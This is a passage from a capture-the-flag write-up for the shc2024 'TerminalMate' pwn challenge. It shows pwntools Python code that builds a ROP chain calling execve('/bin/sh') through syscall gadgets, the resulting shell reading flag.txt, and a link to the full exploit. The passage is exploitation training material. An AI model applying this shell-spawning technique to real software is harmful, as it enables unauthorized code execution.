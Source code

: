 ## Executing the ROP chain

First, we put it on stack (*"rename and chat"* yet again!) and then, select
option `5` (exit) which will hopefully get us a shell:

```python
# Prepare the ROP chain
rename(pwn.p64(return_from_menu_loop))
rop_chain = pwn.p64(pop_rdi_gadget)
rop_chain += pwn.p64(bin_sh)
rop_chain += pwn.p64(pop_rsi_gadget)
rop_chain += pwn.p64(0)
rop_chain += pwn.p64(pop_rax_rdx_rbx_gadget)
rop_chain += pwn.p64(59)
rop_chain += pwn.p64(0)
rop_chain += pwn.p64(0)
rop_chain += pwn.p64(syscall_gadget)
chat(1, rop_chain)

# Exit the main loop - get a shell
interact("Enter your choice: ", "5")
io.interactive()
```

And indeed:

```
$ ls -la
total 7204
drwxr-xr-x. 1 root root    4096 Oct  8 13:20 .
drwxr-xr-x. 1 root root    4096 Oct  7 10:32 ..
-rwxr-xr-x. 1 root root   18512 Sep 26 21:48 TerminalMate
-rw-r--r--. 1 root root      27 Sep 26 21:48 flag.txt
$ cat flag.txt
shc2024{LOCAL_TESTING_FLAG}$
```

This works just as well on the remote instance. Full exploit: [exploit.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/terminal-mate/exploit.py).

# Bonus: Original source

As a bonus, once I did this in the remote instance, I also got the original
[main.c](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/terminal-mate/main_orig.c) and [Makefile](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/terminal-mate/Makefile.orig) &#128578;

---

## `shc2024{ropertus_turned_a_wizard_with_30}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
